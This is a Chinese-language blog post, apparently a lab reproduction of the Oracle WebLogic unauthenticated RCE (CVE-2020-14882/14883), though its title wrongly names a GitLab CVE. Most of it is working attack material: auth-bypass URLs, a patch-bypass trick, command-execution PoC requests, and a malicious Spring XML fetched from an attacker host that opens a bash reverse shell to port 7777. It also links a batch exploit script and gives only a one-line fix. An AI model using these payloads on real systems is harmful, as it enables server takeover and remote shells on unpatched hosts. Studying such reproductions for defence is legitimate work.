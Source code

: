 ```yaml
---
title: GitLab 未授权RCE(CVE-2021-22205)  --花无名   
layout: mypost
categories: [漏洞复现]
---
```


## 漏洞说明

​	2020年10月21日，Oracle官方发布多个高危漏洞公告。其中组合利用CVE-2020-14882/ CVE-2020-14883可使未经授权的攻击者绕过WebLogic后台登录等限制，最终远程执行代码接管WebLogic服务器，利用难度极低，风险极大。

## 影响版本

​	10.3.6.0.0、12.1.3.0.0、12.2.1.3.0、12.2.1.4.0、14.1.1.0.0

## 复现

​	使用Vunhub靶场搭建，Weblogic 12.2.1.3.0版本

![image-20211110143835747](image-20211110143835747.png)

### 未授权访问-CVE-2020-14882

通过访问以下url可进行绕过验证，访问控制台

```
http://IP:7001/console/images/%252E%252E%252Fconsole.portal
http://IP:7001/console/css/%252E%252E%252Fconsole.portal
```

通过对路径的二次url编辑进行访问绕过，官方发布相对于的补丁可通过大小写的转化进行绕过补丁

```
/console/css/%252e%252e%252fconsole.portal //大写换成小写可绕过补丁
```

成功到控制台后，因权限比正常登录账户会小很多，缺少部署等功能。无法通过部署项目的方式进行RCE

![image-20211110144431426](image-20211110144431426.png)

### 远程RCE-CVE-2020-14883

通过配合未授权访问打组合拳，主要通过构造恶意请求的请求包，远程下载执行VPS内的恶意XML文件达到反弹shell 

#### 1.命令执行

直接可构造请求包进行命令执行，判断是否存在。拼接好get请求后，在后面加入需要执行的系统命令

Poc Windows

```
http://x.x.x.x:7001/console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=HomePage1&handle=com.tangosol.coherence.mvel2.sh.ShellSession(%22java.lang.Runtime.getRuntime().exec(%27cmd%27);%22)
```

Poc Linux

```
GET /console/css/%252e%252e%2fconsolejndi.portal?test_handle=com.tangosol.coherence.mvel2.sh.ShellSession(%27weblogic.work.ExecuteThread%20currentThread%20=%20(weblogic.work.ExecuteThread)Thread.currentThread();%20weblogic.work.WorkAdapter%20adapter%20=%20currentThread.getCurrentWork();%20java.lang.reflect.Field%20field%20=%20adapter.getClass().getDeclaredField(%22connectionHandler%22);field.setAccessible(true);Object%20obj%20=%20field.get(adapter);weblogic.servlet.internal.ServletRequestImpl%20req%20=%20(weblogic.servlet.internal.ServletRequestImpl)obj.getClass().getMethod(%22getServletRequest%22).invoke(obj);%20String%20cmd%20=%20req.getHeader(%22cmd%22);String[]%20cmds%20=%20System.getProperty(%22os.name%22).toLowerCase().contains(%22window%22)%20?%20new%20String[]{%22cmd.exe%22,%20%22/c%22,%20cmd}%20:%20new%20String[]{%22/bin/sh%22,%20%22-c%22,%20cmd};if(cmd%20!=%20null%20){%20String%20result%20=%20new%20java.util.Scanner(new%20java.lang.ProcessBuilder(cmds).start().getInputStream()).useDelimiter(%22\\A%22).next();%20weblogic.servlet.internal.ServletResponseImpl%20res%20=%20(weblogic.servlet.internal.ServletResponseImpl)req.getClass().getMethod(%22getResponse%22).invoke(req);res.getServletOutputStream().writeStream(new%20weblogic.xml.util.StringInputStream(result));res.getServletOutputStream().flush();}%20currentThread.interrupt();%27) HTTP/1.1
Host: x.x.x.x:7001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: ADMINCONSOLESESSION=z5ccPjdcv2OjbyH6CNmOHpulsxcMyPfnGM434PTom5QWuvadcN-u!-1073393521
Upgrade-Insecure-Requests: 1
cmd: whoami && pwd
```

#### ![image-20211110150339850](image-20211110150339850.png)2.恶意XML RCE

恶意XML文档准备，开启NC监听

XML写入需执行系统的命令

将准备的文档放置在目标机器可达的VPS内

```
 <beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
 <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
      <list>
        <value>/bin/bash</value>
        <value>-c</value>
        <value><![CDATA[bash -i >& /dev/tcp/x.x.x.x/7777  0>&1]]></value>
      </list>
    </constructor-arg>
  </bean>
</beans>
```

2.构造请求进行访问执行

```
/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://ip/2.xml"）
```

![image-20211110145601643](image-20211110145601643.png)



再次查看监听机可获取权限内容

#### 3.脚本利用 RCE

GGyao写的利用脚本：https://github.com/backlion/CVE-2020-14882_ALL

脚本支持命令回显检测，批量命令回显检测，外置xml无命令检测。根据攻击需求进行使用

![image-20211110150426994](image-20211110150426994.png)

# 修复

根据业务升级升级升级

关闭后台/console/console.portal的访问权限

